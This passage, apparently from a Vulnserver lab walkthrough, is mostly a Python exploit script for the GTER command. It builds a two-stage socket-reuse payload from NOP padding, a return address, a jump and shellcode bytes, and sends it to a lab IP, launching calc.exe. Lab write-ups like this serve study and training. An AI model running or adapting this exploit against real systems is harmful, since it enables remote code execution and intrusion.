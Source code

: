 ```c
buf += b"\xa2\xbb\x60\x8e\xca\x8a\xeb\x41\x8c\x12\x3e\x26\x62"
buf += b"\x59\x63\x0e\xeb\x04\xf1\x13\x76\xb7\x2f\x57\x8f\x34"
buf += b"\xda\x27\x74\x24\xaf\x22\x30\xe2\x43\x5e\x29\x87\x63"
buf += b"\xcd\x4a\x82\x07\x90\xd8\x4e\xe6\x37\x59\xf4\xf6"

payload=b""
payload+=b"\x90"*40
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=get_file_descriptor
payload+=socket_recv
payload+=b"\x90"*(100-len(payload))
payload+=b"\x90"*51
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"

stage1=b""
stage1+=payload

stage2=b""
stage2+=buf
stage2+=b"\x90"*(1024-len(buf))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))

print("[+] Sending STAGE 1 payload")
s.send((b"GTER "+stage1))
sleep(5)

print("[+] Sending STAGE 2 payload")
s.send(stage2)

print("[+] Exploit complete.. calc.exe popped")
s.close()
sys.exit()
```

After running this, we could successfully pop the ```calc.exe``` from the Vulnserver

<video width="100%" preload="auto" muted controls>
    <source src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter-2-exploit.mp4" type="video/mp4"/>
</video>
